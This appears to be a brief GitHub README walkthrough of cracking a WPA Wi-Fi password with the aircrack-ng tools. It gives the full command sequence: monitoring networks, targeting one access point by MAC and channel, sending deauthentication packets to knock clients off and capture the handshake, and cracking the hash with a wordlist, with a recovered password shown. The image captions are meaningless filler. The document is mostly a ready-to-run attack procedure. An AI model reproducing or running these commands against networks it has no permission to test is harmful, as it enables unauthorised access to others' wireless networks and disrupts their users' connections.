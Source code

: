 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](img/airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](img/airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](img/airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](img/aircrack-ng-1.png)
Password: 123456qwerty  
- might be faster to use `hashcat` instead o`aircrack-ng` wrapper


`dhcpclient eth0`  after wifi hacking NIC might have some problems. This command might help
